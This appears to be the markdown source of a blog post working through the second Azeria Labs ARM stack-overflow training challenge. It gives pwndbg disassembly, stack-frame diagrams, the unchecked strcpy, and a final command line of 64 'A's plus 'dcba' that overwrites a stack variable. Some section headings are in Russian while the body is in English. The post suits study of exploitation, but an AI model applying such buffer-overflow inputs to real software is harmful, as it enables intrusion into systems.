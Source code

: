 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part II"
tags: [reversing, exploiting, ARM, iasm, azeria-labs]
inline_default_language: nasm
---
```


This is going to be a fast moving post, directly to the details,
about exploiting the [second Arm challenge](https://github.com/azeria-labs/ARM-challenges)<!--more-->


## Распределение стека

```nasm
 ► 0x104b0 <main>       push   {fp, lr}
   0x104b4 <main+4>     add    fp, sp, #4
   0x104b8 <main+8>     sub    sp, sp, #0x50
   0x104bc <main+12>    str    r0, [fp, #-0x50]
   0x104c0 <main+16>    str    r1, [fp, #-0x54]
```

0x58 bytes are allocated where 0x54 bytes belong to the current stack
frame.

The first two words are allocated by `push` and the rest by `sub`.

```python
100:00> ;! M[sp:]   # <-- from sp to the end of the mapped page
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
        |   ... 16 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
] <-- base of stack
```

## Проверка аргументов

{% call marginnotes() %}
`errx`{.none} prints a message to the standard error output and then makes
the program exit.
<br />
See [man errx](https://linux.die.net/man/3/errx)
 {% endcall %}

`argc`{.none} is expected to be 1 otherwise the program will **not** jump
and `errx`{.none} will be called.

```nasm
   0x104c4 <main+20>    ldr    r3, [fp, #-0x50]
   0x104c8 <main+24>    cmp    r3, #1
   0x104cc <main+28>    bne    #main+44 <main+44>

   0x104d0 <main+32>    mov    r0, #1
   0x104d4 <main+36>    ldr    r1, [pc, #0x5c]
   0x104d8 <main+40>    bl     #errx@plt <errx@plt>

 ► 0x104dc <main+44>    mov    r3, #0
```

{% call marginnotes() %}
As mentioned in a [previous post](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
when `pc` is used for indexing
the `pc` is the address of the current about-to-be-executed instruction
*plus* 8 bytes.
 {% endcall %}

Let's see  `ldr r1, [pc, #0x5c]` which translates to 0x104d4 + 0x5c + 0x8:

```nasm
pwndbg> x/1wx 0x10538
0x10538 <main+136>:     0x000105bc

pwndbg> x/1bs 0x000105bc
0x105bc:        "please specify an argument\n"
```

## Переполнение буфера

A cookie is stored in the stack with a value of zero. Then `argv`{.none}
is loaded into `r3` or `&argv[0]`{.cpp} if you want.

The `add` instruction moves `argv`{.none} pointer 4 bytes forward. In other
words, `r3` *points* to `argv[1]`{.cpp}.

Finally the pointer is dereferenced and `r3` *has* the `argv[1]`{.cpp}
pointer.

```nasm
 ► 0x104dc <main+44>    mov    r3, #0
   0x104e0 <main+48>    str    r3, [fp, #-8]
   0x104e4 <main+52>    ldr    r3, [fp, #-0x54]
   0x104e8 <main+56>    add    r3, r3, #4
   0x104ec <main+60>    ldr    r3, [r3]
```

Like in the [previous challenge](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
begin of the buffer for `strcpy`{.cpp}
is 4 bytes below the pushed arguments and has a size of 64 bytes
(0x48 bytes minus 4 bytes for the pushed `fp` and 4 bytes for the
cookie)

```nasm
   0x104f0 <main+64>    sub    r2, fp, #0x48
```

```python
100:20> ;! M[sp:]
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
buf ----|-->AAAA
        |   BBBB
        |   CCCC
        |   ... 13 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
]
```

Finally the call to `strcpy`{.cpp} is made:

```nasm
   0x104f4 <main+68>    mov    r0, r2
   0x104f8 <main+72>    mov    r1, r3
   0x104fc <main+76>    bl     #strcpy@plt <strcpy@plt>
```

## Сравнение

```nasm
 ► 0x10500 <main+80>     ldr    r3, [fp, #-8]
   0x10504 <main+84>     ldr    r2, [pc, #0x30]
   0x10508 <main+88>     cmp    r3, r2
   0x1050c <main+92>     bne    #main+108 <main+108>
```

The cookie is loaded from the stack and compared with the value
stored in the code segment at 0x10504 + 0x30 + 0x8:

```nasm
pwndbg> x/1wx 0x1053c
0x1053c <main+140>:     0x61626364
```

The good old `'abcd'`{.cpp} or `'dcba'`{.cpp} to be more precise due the endianess
of the machine.

A byte by byte inspection may make this more explicit:

```nasm
pwndbg> x/4bx 0x1053c
0x1053c <main+140>:     0x64    0x63    0x62    0x61
```


## Наша цель (branch at 0x1050c **not** taken):

```nasm
pwndbg> pdisass 0x10510
 ► 0x10510 <main+96>     ldr    r0, [pc, #0x28]
   0x10514 <main+100>    bl     #puts@plt <puts@plt>

   0x10518 <main+104>    b      #main+124 <main+124>

pwndbg> x/1wx 0x10540
0x10540 <main+144>:     0x000105d8

pwndbg> x/1bs 0x000105d8
0x105d8:        "you have correctly got the variable to the right value"
```

## Неудача (branch at 0x1050c **is** taken):

```nasm
pwndbg> pdisass &main+108 10
 ► 0x1051c <main+108>    ldr    r3, [fp, #-8]
   0x10520 <main+112>    ldr    r0, [pc, #0x1c]
   0x10524 <main+116>    mov    r1, r3
   0x10528 <main+120>    bl     #printf@plt <printf@plt>

pwndbg> x/1wx 0x10544
0x10544 <main+148>:     0x00010610

pwndbg> x/1bs 0x00010610
0x10610:        "Try again, you got 0x%08x\n"
```

## Эпилог

We reach here regardless of which path the branch at 0x1050c jumped to:

```nasm
pwndbg> pdisass &main+124
 ► 0x1052c <main+124>    mov    r0, r3
   0x10530 <main+128>    sub    sp, fp, #4
   0x10534 <main+132>    pop    {fp, pc}
```

## Атака

```shell
pi@raspberrypi:~$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```
